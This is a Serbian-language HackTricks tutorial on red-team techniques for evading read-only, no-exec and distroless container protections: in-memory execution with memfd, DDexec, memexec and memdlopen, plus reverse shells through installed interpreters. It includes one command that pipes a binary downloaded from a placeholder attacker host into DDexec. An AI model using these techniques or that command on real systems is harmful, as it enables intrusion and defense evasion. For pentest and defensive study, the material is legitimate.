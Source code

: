 # Bypassovanje zaštite fajl sistema: samo za čitanje / bez izvršavanja / Distroless

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hakersku karijeru** i hakovanje onoga što se ne može hakovati - **zapošljavamo!** (_potrebno je tečno poznavanje poljskog jezika, kako pisano tako i govorno_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video snimci

U sledećim video snimcima možete pronaći tehnike pomenute na ovoj stranici objašnjene detaljnije:

* [**DEF CON 31 - Istraživanje manipulacije memorijom Linux-a radi prikrivanja i izbegavanja**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Prikriveni upadi sa DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scenario samo za čitanje / bez izvršavanja

Sve je češće naići na linux mašine montirane sa **zaštitom fajl sistema samo za čitanje (ro)**, posebno u kontejnerima. To je zato što je pokretanje kontejnera sa fajl sistemom samo za čitanje jednostavno postavljanjem **`readOnlyRootFilesystem: true`** u `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Međutim, čak i ako je fajl sistem montiran kao ro, **`/dev/shm`** će i dalje biti upisiv, tako da nije tačno da ne možemo ništa pisati na disk. Međutim, ovaj folder će biti **montiran sa zaštitom bez izvršavanja**, pa ako preuzmete binarni fajl ovde, **nećete moći da ga izvršite**.

{% hint style="warning" %}
Sa perspektive crvenog tima, ovo otežava **preuzimanje i izvršavanje** binarnih fajlova koji već nisu u sistemu (kao što su backdoor-ovi ili enumeratori poput `kubectl`).
{% endhint %}

## Najlakše zaobilaženje: Skripte

Imajte na umu da sam spomenuo binarne fajlove, možete **izvršiti bilo koju skriptu** sve dok je interpretator unutar mašine, poput **shell skripte** ako je `sh` prisutan ili **python skripte** ako je instaliran `python`.

Međutim, ovo nije dovoljno da biste izvršili vaš binarni backdoor ili druge binarne alate koje možda treba pokrenuti.

## Zaobilaženje memorije

Ako želite da izvršite binarni fajl, ali fajl sistem to ne dozvoljava, najbolji način da to uradite je **izvršavanje iz memorije**, jer se **zaštite ne primenjuju tamo**.

### FD + zaobilaženje exec syscall-a

Ako imate moćne skriptne motore unutar mašine, poput **Python-a**, **Perla** ili **Ruby-ja**, možete preuzeti binarni fajl za izvršavanje iz memorije, sačuvati ga u deskriptoru fajla u memoriji (`create_memfd` syscall), što neće biti zaštićeno tim zaštitama, a zatim pozvati **`exec` syscall** navodeći **fd kao fajl za izvršavanje**.

Za ovo možete lako koristiti projekat [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Možete mu proslediti binarni fajl i on će generisati skriptu na naznačenom jeziku sa **binarnim fajlom kompresovanim i b64 enkodiranim** sa instrukcijama za **dekodiranje i dekompresovanje** u **fd** kreiran pozivom `create_memfd` syscall-a i poziv **exec** syscall-a za pokretanje.

{% hint style="warning" %}
Ovo ne funkcioniše u drugim skriptnim jezicima poput PHP-a ili Node-a jer nemaju **podrazumevan način pozivanja sirovih syscalls** iz skripte, tako da nije moguće pozvati `create_memfd` da kreirate **memorijski fd** za čuvanje binarnog fajla.

Osim toga, kreiranje **regularnog fd-a** sa fajlom u `/dev/shm` neće raditi, jer vam neće biti dozvoljeno da ga pokrenete zbog primene **zaštite bez izvršavanja**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) je tehnika koja vam omogućava da **modifikujete memoriju vašeg sopstvenog procesa** tako što ćete prebrisati njegov **`/proc/self/mem`**.

Stoga, **kontrolišući asemblerski kod** koji se izvršava od strane procesa, možete napisati **shellcode** i "mutirati" proces da **izvrši bilo koji proizvoljni kod**.

{% hint style="success" %}
**DDexec / EverythingExec** će vam omogućiti da učitate i **izvršite** svoj **shellcode** ili **bilo koji binarni fajl** iz **memorije**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) je prirodni sledeći korak nakon DDexec-a. To je **DDexec shellcode demonizovan**, tako da svaki put kada želite **pokrenuti drugi binarni fajl** ne morate ponovo pokretati DDexec, već možete jednostavno pokrenuti memexec shellcode putem DDexec tehnike i zatim **komunicirati sa ovim demonom kako biste prosledili nove binarne fajlove za učitavanje i pokretanje**.

Možete pronaći primer kako koristiti **memexec za izvršavanje binarnih fajlova iz PHP reverse shell-a** na [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Sa sličnim ciljem kao DDexec, tehnika [**memdlopen**](https://github.com/arget13/memdlopen) omogućava **jednostavniji način učitavanja binarnih fajlova** u memoriju kako bi ih kasnije izvršili. Može čak omogućiti učitavanje binarnih fajlova sa zavisnostima.

## Bypass Distroless

### Šta je distroless

Distroless kontejneri sadrže samo **apsolutno neophodne komponente za pokretanje određene aplikacije ili servisa**, poput biblioteka i zavisnosti za izvršavanje, ali isključuju veće komponente poput upravljača paketima, ljuske ili sistemskih alatki.

Cilj distroless kontejnera je **smanjenje površine napada kontejnera eliminisanjem nepotrebnih komponenti** i minimiziranje broja ranjivosti koje mogu biti iskorišćene.

### Reverse Shell

U distroless kontejneru možda **nećete čak ni pronaći `sh` ili `bash`** da biste dobili običnu ljusku. Takođe nećete pronaći binarne fajlove poput `ls`, `whoami`, `id`... sve što obično pokrećete na sistemu.

{% hint style="warning" %}
Stoga, **nećete** moći dobiti **reverse shell** ili **enumerisati** sistem kao što obično radite.
{% endhint %}

Međutim, ako kompromitovani kontejner pokreće na primer flask veb, tada je instaliran python, i stoga možete dobiti **Python reverse shell**. Ako pokreće node, možete dobiti Node rev shell, i isto važi za većinu bilo koje **skripting jezika**.

{% hint style="success" %}
Korišćenjem skriptnog jezika možete **enumerisati sistem** koristeći mogućnosti jezika.
{% endhint %}

Ako ne postoje **zaštite `read-only/no-exec`** možete zloupotrebiti svoj reverse shell da **pišete u fajl sistem vaše binarne fajlove** i **izvršite** ih.

{% hint style="success" %}
Međutim, u ovakvim kontejnerima ove zaštite obično postoje, ali možete koristiti **prethodne tehnike izvršavanja u memoriji da ih zaobiđete**.
{% endhint %}

Možete pronaći **primere** kako **iskoristiti neke RCE ranjivosti** da biste dobili **reverse shell-ove skriptnih jezika** i izvršili binarne fajlove iz memorije na [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
